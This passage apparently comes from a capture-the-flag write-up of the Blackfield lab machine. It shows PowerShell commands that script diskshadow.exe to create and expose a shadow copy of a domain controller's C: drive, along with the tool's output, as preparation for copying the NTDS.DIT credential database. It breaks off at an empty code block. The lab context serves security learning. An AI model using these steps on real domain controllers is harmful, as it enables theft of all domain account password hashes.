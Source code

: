 The overcome this, we need to use diskshadow.exe to make a shadow copy of the C:\ drive and copy the NTDS.DIT file from it, since it won't be in use in this case.

We also need to figure another work around, since diskshadow.exe is an interactive command and our current session doesn't allow us to interact with it.

The best way to run diskshadow.exe in this case is to create a .txt file with the commands we want to run and run the text file with diskshadow.exe.

First we will create the .txt file with the commands we need:
```shell
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% V:" | out-file ./diskshadow.txt -encoding ascii -append
```
We can check our text file to see if everything is fine before running it:
```shell
cat diskshadow.txt
```

```shell
set context persistent nowriters
add volume c: alias temp
create
expose %temp% V:
```

Everything looks fine. Now we can run diskshadow.exe with our diskshadow.txt file:
```shell
diskshadow.exe /s C:\Windows\Temp\diskshadow.txt
```

```shell
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  11/3/2024 4:19:10 PM

-> set context persistent nowriters
-> add volume c: alias temp
-> create
Alias temp for shadow ID {ba49512a-c4d3-471a-adfe-3e08bacdf411} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2936c70c-7949-493e-b186-2948c89c2f8a} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2936c70c-7949-493e-b186-2948c89c2f8a}

        * Shadow copy ID = {ba49512a-c4d3-471a-adfe-3e08bacdf411}               %temp%
                - Shadow copy set: {2936c70c-7949-493e-b186-2948c89c2f8a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 11/3/2024 4:19:11 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %temp% V:
-> %temp% = {ba49512a-c4d3-471a-adfe-3e08bacdf411}
The shadow copy was successfully exposed as V:\.
->
```
It worked! The shadow copy was successfully exposed as V:\. Now it's time to get a copy of the NTDS.DIT file:
```shell
```